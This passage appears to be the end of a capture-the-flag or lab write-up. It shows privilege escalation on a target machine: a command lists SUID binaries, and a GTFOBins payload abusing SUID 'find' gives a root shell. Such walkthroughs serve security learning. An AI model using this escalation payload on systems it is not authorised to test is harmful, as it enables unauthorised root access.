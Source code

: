 
Now, lets go ahead and escalate our privileges




<h3>Privilege Escalation</h3>

Checking the suid binaries available on the machine

>command: find / -perm -u=s  -type f 2>/dev/null

![image](https://user-images.githubusercontent.com/67879936/222640902-801816d6-a904-4726-b733-eff4c62be9c8.png)

we can use the ```/usr/bin/find``` to escalate our privileges

We'll be using gtfobins to pick the payload

Link:https://gtfobins.github.io/

payload:```find . -exec /bin/sh -p \; -quit```

![image](https://user-images.githubusercontent.com/67879936/222645473-0f93d139-27bb-4b14-842f-bf181d5a447c.png)

Boom!!! We got a shell as the root user

That will be all for today
<br> <br>
[Back To Home](../../index.md)
























































